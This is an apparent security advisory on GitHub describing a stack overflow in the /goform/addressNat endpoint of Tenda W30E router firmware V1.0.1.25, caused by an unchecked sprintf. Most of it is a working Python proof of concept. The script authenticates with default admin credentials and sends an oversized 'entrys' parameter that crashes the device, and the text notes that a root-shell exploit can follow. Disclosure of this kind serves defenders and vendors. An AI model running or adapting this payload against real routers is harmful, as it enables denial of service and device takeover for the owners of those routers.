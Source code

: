 # Tenda W30E V1.0.1.25(633) Stack overflow vulnerability

## Firmware information

- Manufacturer's address：https://www.tenda.com.cn/

- Firmware download address ： https://www.tenda.com.cn/download/detail-2218.html


## Affected version

![](https://github.com/z1r00/IOT_Vul/blob/main/Tenda/W30E/exeCommand/img/1.png)

## Vulnerability details

![](https://github.com/z1r00/IOT_Vul/blob/main/Tenda/W30E/addressNat/img/2.png)

In /goform/addressNat, entries will be spliced into s by sprintf. It is worth noting that there is no size check, which leads to a stack overflow vulnerability.

## Poc

```python
import requests

cmd = b'entrys=' + b'a' * 0x3000

url = b"http://192.168.10.103/login/Auth"
payload = b"http://192.168.10.103/goform/addressNat/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()
```

You can see that the router crashed, and finally you can write an exp to get a root shell
